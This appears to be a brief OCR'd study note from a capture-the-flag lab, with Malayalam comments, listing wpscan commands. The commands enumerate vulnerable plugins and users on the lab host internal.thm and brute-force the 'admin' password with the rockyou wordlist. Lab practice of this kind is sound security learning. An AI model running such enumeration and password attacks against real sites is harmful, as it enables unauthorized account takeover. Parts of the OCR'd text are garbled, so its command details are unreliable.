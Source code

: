  WordPress scan
-->wpscan --url http://internal.thm -e vp,u 
       vp- vulnerable plugins, u- users , -e - enumerate
		ee scan chythapoo admin enna usernames kandu so:
-->wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/amass/wordlists/rockyou.txt
-->wpscan -u [url] -e u vp
-->vp means vulnerable plugins and u means users.ith chythathinu shesham :
-->wpscan -u [url] -e u --wordlist /usr/share/amass/
-->wpscan -u [url] -e u,vp --api-token [token]

-->wordpress ellarum update chyum but athile plugins oke update chyan maran pokum